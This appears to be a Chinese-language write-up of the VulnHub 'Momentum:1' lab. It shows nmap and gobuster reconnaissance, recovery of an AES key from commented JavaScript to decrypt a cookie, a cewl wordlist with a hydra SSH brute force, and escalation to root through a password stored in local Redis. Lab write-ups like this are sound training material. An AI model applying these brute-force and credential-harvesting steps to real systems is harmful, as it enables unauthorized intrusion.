


# Recon

这台机器开放标准端口的ssh和http

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n 192.168.2.148 -oN ports
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-17 02:45 EST
Nmap scan report for 192.168.2.148
Host is up (0.00040s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5c:8e:2c:cc:c1:b0:3e:7c:0e:22:34:d8:60:31:4e:62 (RSA)
|   256 81:fd:c6:4c:5a:50:0a:27:ea:83:38:64:b9:8b:bd:c1 (ECDSA)
|_  256 c1:8f:87:c1:52:09:27:60:5f:2e:2d:e0:08:03:72:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Momentum | Index 
MAC Address: 00:0C:29:AA:B3:75 (VMware)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.40 ms 192.168.2.148

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds
```

# analyze js & aes decrypt to obtain password-dict

web前端纯静态，不存在交互点



使用不同工具做了几轮目录扫描没有发现特别的

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ gobuster dir -u http://192.168.2.148 --rua -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,zip,rar --db
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.148
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (Windows; U; Windows NT 5.0; de-DE; rv:1.7) Gecko/20040626 Firefox/0.9.1
[+] Extensions:              php,js,txt,zip,rar
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://192.168.2.148/img/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.2.148/css/]
/manual               (Status: 301) [Size: 315] [--> http://192.168.2.148/manual/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.2.148/js/]
```

查看/js/main.js，发现opus-details.php，接收id传参

下面注释了三行代码使用crypto-js进行aes加密，密钥为SecretPassphraseMomentum

```js
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

curl访问opus-details.php进行测试，发现存在cookie

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ curl http://192.168.2.148/opus-details.php -vI
*   Trying 192.168.2.148:80...
* Connected to 192.168.2.148 (192.168.2.148) port 80
* using HTTP/1.x
> HEAD /opus-details.php HTTP/1.1
> Host: 192.168.2.148
> User-Agent: curl/8.15.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Mon, 17 Nov 2025 09:38:07 GMT
Date: Mon, 17 Nov 2025 09:38:07 GMT
< Server: Apache/2.4.38 (Debian)
Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.3.27-1~deb10u1
X-Powered-By: PHP/7.3.27-1~deb10u1
< Set-Cookie: cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt; path=/opus-details.php
Set-Cookie: cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt; path=/opus-details.php
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
< 

* Connection #0 to host 192.168.2.148 left intact
```

cookie看起来像base64，解密发现salted关键字，可能是aes密文

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ echo U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt|base64 -d                                   
Salted__w�3�:�lw��U�w��bJ
                         �֑�=+�j▒�:3�7U[&m               
```

使用在线工具解密，得到auxerre-alienum##



看起来有进度，但实则一筹莫展

# directory attack

上面的篇幅都用来获得一串字符了 联系到靶机开启了ssh 那么获得立足点的方式可能就是爆破了

字典攻击与爆破的差别是前者的主要工作在于字典的生成 需要结合垂直领域、osint、个人信息等多个角度生成字典

而爆破则完全是概率学

---

使用cewl爬取网页生成字典

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ cewl -d 10 http://192.168.2.148 -w username.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)                                                                                                             
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ cat username.txt                                                        
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: username.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ lightbox
   2   │ container
   3   │ hidden
   4   │ with
   5   │ CSS
   6   │ prev
   7   │ next
   8   │ Momentum
   9   │ Index
  10   │ Castles
  11   │ fall
  12   │ from
  13   │ inside
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
```

去除其中明显是css相关单词的字符串，写入前期aes解密获得的字符串，并切分成4中可能字符串

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ cat >> username.txt << may
heredoc> auxerre-alienum##
heredoc> auxerre        
heredoc> alienum        
heredoc> alienum##     
heredoc> may           
```

# shell as auxerre by ssh-crack

用户字典和密码字典可以用同一份，使用hydra爆破，得到auxerre:auxerre-alienum##

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ hydra -L username.txt -P password.txt 192.168.2.148 ssh 
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-17 05:08:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking ssh://192.168.2.148:22/
[22][ssh] host: 192.168.2.148   login: auxerre   password: auxerre-alienum##
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-17 05:08:49
```

ssh登录即可

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/momentum:1]
└─$ ssh auxerre@192.168.2.148                                    
The authenticity of host '192.168.2.148 (192.168.2.148)' can't be established.
ED25519 key fingerprint is: SHA256:NLUFYImFHvyED76cAzjnxD3dTxP5rzmEHrx4acGvM9c
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.148' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
auxerre@192.168.2.148's password: 
Linux Momentum 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 08:47:31 2021
auxerre@Momentum:~$ id
uid=1000(auxerre) gid=1000(auxerre) groups=1000(auxerre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

# shell as root by redis data

例行检查，发现本地开放了redis，连接后获取数据得到rootpass

```shell
auxerre@Momentum:~$ ss -nultp
Netid            State             Recv-Q            Send-Q                         Local Address:Port                         Peer Address:Port            
udp              UNCONN            0                 0                                    0.0.0.0:68                                0.0.0.0:*               
tcp              LISTEN            0                 128                                127.0.0.1:6379                              0.0.0.0:*               
tcp              LISTEN            0                 128                                  0.0.0.0:22                                0.0.0.0:*               
tcp              LISTEN            0                 128                                    [::1]:6379                                 [::]:*               
tcp              LISTEN            0                 128                                        *:80                                      *:*               
tcp              LISTEN            0                 128                                     [::]:22                                   [::]:*               
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> keys *
1) "rootpass"
127.0.0.1:6379> get rootpass
"m0mentum-al1enum##"
127.0.0.1:6379> 
```

su即可

```shell
auxerre@Momentum:~$ su root
Password: 
root@Momentum:/home/auxerre# id
uid=0(root) gid=0(root) groups=0(root)
```

